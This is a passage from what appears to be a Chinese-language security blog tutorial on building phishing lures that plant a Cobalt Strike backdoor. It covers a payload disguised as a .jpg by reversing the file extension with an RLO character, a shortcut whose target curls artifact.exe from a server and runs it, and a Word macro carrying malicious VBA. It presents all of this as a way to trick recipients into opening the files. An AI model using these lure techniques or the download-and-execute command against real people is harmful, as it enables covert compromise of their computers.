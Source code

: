步骤四：把文件重命名为壁纸gpj.exe，再使用RLO对后缀进行反转，最后效果如下  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/GzdTGmQpRic0DKKuMAu4bXMF7B2t6nk7VJVibIlCNr2Bbe9G6DdIMZQU5ad6H6zVRQc4oiciaEIw8jg0mOsdgcGReA/640?wx_fmt=png&from=appmsg "")  
  
结合邮件钓鱼等方式把“图片”放送给他人，引诱他人上钩  
  
对方双击“图片”后，会同时执行artifact.exe和壁纸.jpg，而且上线cs  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/GzdTGmQpRic0DKKuMAu4bXMF7B2t6nk7Vibljyr1hZWGgU5l6V9Sk7ZNKDibnf1hhOmChU9jkZ5G1oHfPYX3icW8sg/640?wx_fmt=png&from=appmsg "")  
### 0x02.快捷方式  
  
制作思路：运行快捷键方式时，执行命令让其下载我们提前放在服务器上的后门程序并且运行  
  
步骤一：cs生成后门，放到服务器网站目录下  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/GzdTGmQpRic0DKKuMAu4bXMF7B2t6nk7VAbTEQmeVBbfEzuTtK8CgVWhNCPibAlaiba30gcqb2UvpwyJWdrkg3QFw/640?wx_fmt=png&from=appmsg "")  
  
步骤二：创建快捷方式，在目标中写入以下代码  
```
C:\Windows\System32\cmd.exe /k curl http://xxx.xxx.xxx.xxx/exe/artifact.exe --output C:\Windows\temp\win.exe && C:\Windows\temp\win.exe
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/GzdTGmQpRic0DKKuMAu4bXMF7B2t6nk7V2EZBHW9N9S13p1Gr5UdzPP1CXgzG7TqyzjRibXwSwJ07gyb72uibekEQ/640?wx_fmt=png&from=appmsg "")  
  
步骤三：更换图标，增加其真实性  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/GzdTGmQpRic0DKKuMAu4bXMF7B2t6nk7VARk5EvZB0nrB458yBsWJ8ib9u7lgygib82PeucaeO24GmDm7KySGJjwA/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/GzdTGmQpRic0DKKuMAu4bXMF7B2t6nk7V97MvyoS2akMAWNKPQNPxMJPLWtA9PbXtyNP9hcTOxKicZFT4t7TM4qw/640?wx_fmt=png&from=appmsg "")  
  
当对方双击快捷键方式时就会下载我们准备好的artifact.exe并且执行  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/GzdTGmQpRic0DKKuMAu4bXMF7B2t6nk7Vibljyr1hZWGgU5l6V9Sk7ZNKDibnf1hhOmChU9jkZ5G1oHfPYX3icW8sg/640?wx_fmt=png&from=appmsg "")  
### 0x03.Word宏病毒  
  
宏病毒是Word中被嵌入的带有恶意行为的宏代码（VBA代码），当我们双击打开带有宏病毒的word文档的时候它的宏代码会自动运行。  
  
步骤一：使用cs生成恶意vba代码  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/GzdTGmQpRic0DKKuMAu4bXMF7B2t6nk7VMkUI9Ynv8e2rriavokgwIrNm4JQtIcKBPXZo6DYr1tCEiantbRrrQF8w/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/GzdTGmQpRic0DKKuMAu4bXMF7B2t6nk7VJmq2MNDRb76p1vEShhX5MdtxEibfYicgPxkIOBpVM48flxLUpynzaaSQ/640?wx_fmt=png&from=appmsg "")  
  
步骤二：新建doc文档，创建宏，保存即可  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/GzdTGmQpRic0DKKuMAu4bXMF7B2t6nk7V5HdyiaRN6pTmmn5kKWHIMJXNXUvgE1kqvhpbUXIQCQGvvN6GicQIgGYg/640?wx_fmt=png&from=appmsg "")  
  
步骤三：再次打开文件后提示是否启用宏，点击启用就会上线cs  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/GzdTGmQpRic0DKKuMAu4bXMF7B2t6nk7VfJuY4BcAnuJXsxBKB4icew66daZIFdEdibuuiaqwbOVGq7PPpH6o8pBBQ/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/GzdTGmQpRic0DKKuMAu4bXMF7B2t6nk7Vibljyr1hZWGgU5l6V9Sk7ZNKDibnf1hhOmChU9jkZ5G1oHfPYX3icW8sg/640?wx_fmt=png&from=appmsg "")  
### 0x04.Excel注入  
  